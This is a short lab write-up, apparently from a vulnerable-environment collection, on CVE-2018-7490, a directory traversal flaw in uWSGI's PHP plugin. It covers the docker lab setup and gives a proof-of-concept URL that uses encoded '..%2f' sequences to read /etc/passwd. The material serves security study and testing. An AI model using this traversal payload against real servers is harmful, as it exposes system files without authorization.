

uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)¶
uWSGI is a web application server, which implements protocols such as WSGI/uwsgi/http, and supports for various languages through plugins.
The PHP plugin of uWSGI before 2.0.17 doesn't handle the detection of DOCUMENT_ROOT correctly, resulting in reading or running files outside the DOCUMENT_ROOT through the use of ..%2f.
Environment Setup¶
Enter the following command：
docker compose up -d
Visit http://your-ip:8080 and you'll see the phpinfo page as the uwsgi-php server running successfully.
POC¶
Directly visit http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd, you will get the passwd file：
